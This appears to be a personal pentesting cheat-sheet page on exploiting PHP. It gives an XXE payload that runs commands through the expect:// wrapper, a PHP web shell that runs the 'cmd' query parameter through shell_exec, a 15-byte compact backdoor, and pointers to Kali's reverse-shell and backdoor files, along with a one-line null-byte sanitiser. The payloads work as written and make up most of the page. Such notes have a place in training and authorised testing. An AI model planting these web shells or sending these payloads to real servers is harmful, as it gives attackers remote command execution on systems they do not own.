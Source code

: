 # Exploiting PHP

## RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

## The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

## Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)
* [The Poison Null Byte](poison-null-byte.md)
* [Podalirius on Twitter](https://twitter.com/podalirius_/status/1488921781637365771)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> February 3, 2022
